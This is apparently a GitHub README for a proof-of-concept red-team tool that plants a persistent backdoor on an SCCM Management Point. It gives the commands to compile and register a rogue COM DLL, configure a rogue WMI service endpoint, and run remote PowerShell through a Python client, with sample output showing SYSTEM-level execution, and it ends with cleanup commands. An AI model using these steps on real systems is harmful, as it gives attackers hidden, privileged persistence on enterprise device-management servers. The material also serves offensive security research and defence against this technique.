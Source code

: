 # CcmMessagingBackdoor

Proof of Concept tooling to build and install a rogue CcmMessaging service to maintain access on a Management Point

## Usage


- Compile and install the rogue COM service on the Management Point
```powershell
# Compile
PS C:\> C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe /t:library /out:c:\rogue.dll RogueCcmEndpoint.cs

# Register CLSID
PS C:\> C:\Windows\Microsoft.NET\Framework64\v2.0.50727\RegAsm.exe /codebase c:\rogue.dll
```

- Configure the service endpoint in WMI
```powershell
PS C:\>  ./wmi_create_rogue_service_endpoint.ps1
```

- Use the Python client to run powershell commands
```bash
$ python3 ccmmessaging_backdoor_client.py -t https://mp.corp.local -s MP_Backdoor 'whoami'
[...]
<BackdoorResponse>nt authority\system
</BackdoorResponse>
```

- To clean

```powershell
# Unregister CLSID
PS C:\> C:\Windows\Microsoft.NET\Framework64\v2.0.50727\RegAsm.exe /unregister c:\rogue.dll

PS C:\> ./wmi_remove_rogue_service_endpoint.ps1
```

## TODO
- [ ] Fix random crash of CcmExec process (unknown reason atm)